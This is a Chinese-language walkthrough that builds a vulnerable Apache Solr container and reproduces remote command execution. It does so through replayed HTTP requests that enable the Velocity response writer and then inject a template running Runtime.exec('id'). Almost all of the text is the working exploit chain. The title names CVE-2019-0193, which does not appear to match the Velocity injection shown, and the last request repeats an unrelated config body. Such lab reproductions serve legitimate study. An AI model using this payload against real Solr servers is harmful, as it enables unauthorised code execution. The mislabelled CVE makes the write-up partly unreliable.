 # Apache Solr CVE-2019-0193 环境搭建漏洞复现

 docker pull scxiaotan2/apache-solr:cve-2019-0193  # 拉去镜像
 
 docker run -it scxiaotan2/apache-solr:cve-2019-0193 /bin/bash #启动shell

./start.sh #启动根目录下的服务

netstat -tlnp #可以看到983端口启用了



# Solr CVE-2019-0193 漏洞复现

使用BurpSuite 对数据包重放

第一步：
GET /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

第二步：
post /solr/te1/config HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }

}


第三步
post /solr/te1/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end  HTTP/1.1

Host: 172.17.0.3:8983

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: http://172.17.0.3:8983/solr/

Connection: close

Content-Length: 259




{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
